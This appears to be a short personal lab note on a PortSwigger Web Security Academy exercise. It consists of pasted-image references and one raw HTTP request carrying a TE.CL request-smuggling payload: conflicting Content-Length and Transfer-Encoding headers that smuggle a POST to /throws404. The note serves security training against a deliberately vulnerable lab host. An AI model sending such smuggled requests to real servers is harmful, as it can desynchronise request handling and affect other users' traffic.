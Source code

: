 
![[Pasted image 20250908212333.png]]
![[Pasted image 20250908212358.png]]

![[Pasted image 20250908214025.png]]
![[Pasted image 20250908214735.png]]
```
POST / HTTP/1.1
Host: 0ac90013035cfcfd81ea5cfd007a0093.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

64 (THIS CHANGE DEPENDS ON THE LAB URL)
POST /throws404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```